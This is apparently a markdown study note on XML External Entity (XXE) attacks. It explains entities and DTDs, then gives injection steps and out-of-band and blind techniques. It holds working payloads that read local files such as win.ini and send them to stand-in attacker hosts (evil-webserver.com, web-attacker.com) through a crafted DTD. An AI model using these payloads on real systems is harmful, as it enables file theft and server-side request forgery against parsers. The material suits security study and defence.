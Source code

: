 # Vulnerability: XXE 

XXE = XML External Entity

This is a type of attack that targets `XML`[extensible markup language] parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`ssrf` and even `port scanning` of local resources.

## XML and its ENTITYs

### XML Entities

A way of representing an item of data within an `XML` doc. Certain entities are built in to the spec i.e `&lt;` and `&gt;` represent the chars `< >`, these are metachars use to denote `XML` tags and must be represented using their entities when they appear in data.

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity val" > ]>
```

Now we could use `&myentity;` and it would be replaced with `"my entity value"`.

### What is a DTD

A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. A DTD can be `Internal` or `External`, or a hybrid of the two.

### Why use a DTD

With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 

### Internal DTD Declaration

If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file.

#### What are `XML external entities`?

A custon entity whose definition is located outside of the `DTD` where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded.
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd"> // the external dtd is being declared here with the SYSEM keyword
<note> // the dtd being being used -> not malicious YET
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection

When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request

# Out of band

While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:

```bash
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```xml
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

# Blind XXE

In many cases XXE will be blind, meaning the application will not return the values of any defined external entities in its response. Bling XXE vulns can still be detected and exploited, but more advanced techniques are required. 

	- Trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data
	- Trigger XML parsing errors in such a way that the error messages contain sensitive data

### Out of band techniques

Def. an external entitity: 

` <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> `




## Learn more 

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[PortSwigger Academy](https://portswigger.net/web-security/xxe)

[H1 Report](https://hackerone.com/reports/312543)

[PortSwigger](https://portswigger.net/web-security/xxe)

[Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface)
